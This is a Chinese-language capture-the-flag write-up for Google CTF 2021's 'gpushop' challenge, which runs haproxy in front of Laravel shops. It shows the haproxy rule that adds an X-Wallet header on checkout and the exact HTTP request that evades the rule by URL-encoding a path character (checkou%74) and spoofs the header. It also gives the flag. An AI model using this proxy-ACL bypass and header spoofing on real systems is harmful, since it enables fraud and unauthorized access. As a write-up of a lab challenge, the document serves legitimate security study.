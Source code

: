 # gpushop

[English version](README_en.md)

題目給出一包超爆幹複雜的source code

裡面是 k8s 包的 haproxy, varnish, 跟兩台 nginx+php-fpm 架的 laravel 網站

一開始花了不少時間看架構，簡單說就是 haproxy 會 forward request 到後端的 gpushop 和 paymeflare

paymeflare 的概念有點像 cloudflare (名字也像一半)，可以新增一個 domain 並綁上 ip:port (cname指到題目domain)

gpushop 則是一個單純的購物網站(eth付款)，比較特別的是，他判斷是否購買成功是看 `X-Wallet` header 中的錢包地址是否有足夠 eth

而 `X-Wallet` 則是 haproxy 幫你加上去的，預設會隨機幫你產一個地址 

只要路徑是 `/checkout`，haproxy 就會幫你加上 `X-Wallet` header

```
  acl is_checkout path_dir checkout
  http-request lua.gen_addr if is_checkout
  http-request set-header X-Wallet %[var(txn.wallet)] if is_checkout
```

所以目標蠻明顯是想辦法搞掉這個 header

<br>

根據經驗，這種多層架構對 url path 解析通常容易出問題

所以我第一個直覺就是先黑箱踹 `/checkouT`，並帶上自己設的`X-Wallet` header，但失敗

接著我就很自然的踹 `/checkou%74`

然後就成功了!

```
POST /cart/checkou%74 HTTP/1.1
Host: gpushop.2021.ctfcompetition.com
x-wallet: 0000000000000000000000000000000000000000
```

成功把 x-wallet 蓋掉，然後就拿到 flag 了.. WTF

![](https://github.com/w181496/CTF/blob/master/googlectf-2021-qual/gpushop/gpushop.png)

`CTF{fdc990bd13fa3a0e760a14b560dd658c}`


(小tip: 測試時可以先 request 自己設的 domain，看 X-wallet header 還在不在)
